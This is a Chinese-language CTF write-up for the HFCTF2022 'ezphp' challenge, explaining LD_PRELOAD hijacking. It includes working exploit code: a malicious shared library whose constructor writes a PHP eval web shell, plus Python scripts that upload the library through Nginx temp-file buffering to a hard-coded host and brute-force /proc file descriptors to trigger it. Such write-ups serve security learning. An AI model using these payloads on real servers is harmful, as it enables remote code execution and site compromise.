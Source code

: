 # [HFCTF2022]ezphp

```php
<?php 
(empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

上传恶意的.so文件，并通过设置LD_PRELOAD，然后调用新进程来加载恶意.so文件，达到绕过的效果。

#### LD_PRELOAD

LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。

#### 程序的链接方式

1. 静态链接：在程序运行之前先将各个目标模块以及所需要的库函数链接成一个完整的可执行程序，之后不再拆开。
2. 装入时动态链接：源程序编译后所得到的一组目标模块，在装入内存时，边装入边链接。
3. 运行时动态链接：原程序编译后得到的目标模块，在程序执行过程中需要用到时才对它进行链接。

对于动态链接来说，需要一个动态链接库，其作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新。但是由于程序是在运行时动态加载，这就存在一个问题，假如程序动态加载的函数是恶意的，就有可能导致disable_function被绕过。

#### 上传.so文件

如果打开一个进程打开了某个文件，某个文件就会出现在 `/proc/PID/fd/` 目录下，但是如果这个文件在没有被关闭的情况下就被删除了或是中断了，我们依然可以读取到文件内容。

#### 查找进程pid

Nginx 会有很多 Worker 进程，但是一般来说 Worker 数量不会超过 cpu 核心数量，我们可以通过 `/proc/cpuinfo` 中的 processor 个数得到 cpu 数量，我们可以对比找到的 Nginx Worker Pid 数量以及 CPU 数量来校验我们大概找的对不对。同样我们可以爆破pid得到文件位置，如果题目给了docker，那就可以现在本地查找文件存放的位置。

#### 编译.so文件

先写一个c文件：

```c++
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("echo \"<?php eval($_POST[cmd]);?>\" > /var/www/html/shell.php");
}
```

放到kali中，使用gcc转换为so文件

```
gcc -shared -fPIC 1.c -o 1.so
```

增大so文件的大小，在so文件尾部加入脏字符：

```
var=`dd if=/dev/zero bs=1c count=10000 | tr '\0' 'c'`
echo $var >> 1.so
```

可以看到so文件大小增大。

运行脚本：

`gen_tmp.py`向网站发包：

```python
from threading import Thread
import requests
import socket
import time

port = 28077
host = "1.14.71.254"


def do_so():
    data = open("1.so", "rb").read()

    packet = f"""POST /index.php HTTP/1.1\r\nHOST:{host}:{port}\r\nContent-Length:{len(data) + 11}\r\n\r\n"""
    packet = packet.encode()

    packet += data
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.sendall(packet)
    time.sleep(10)
    s.close()


if __name__ == "__main__":
    do_so()
```

`brute.py`爆破一下pid(其实可以在docker中直接查找临时文件的位置，但是爆破同样也很快，还不用动脑子。)

```python
import requests
from threading import Thread

port = 28077
host = "1.14.71.254"

def ldload(pid, fd):
   sopath = f"/proc/{pid}/fd/{fd}"
   print(sopath)
   r = requests.get(f"http://{host}:{port}/index.php", params={"env":f"LD_PRELOAD={sopath}"})
   return r

if __name__ == "__main__":
   # ldload(20, 20)
   for pid in range(12, 40):
       for fd in range(1, 40):
           t = Thread(target=ldload, args=(pid, fd))
           t.start()
```

发现shell.php可以访问

原文https://www.cnblogs.com/dre0m1/p/16059950.html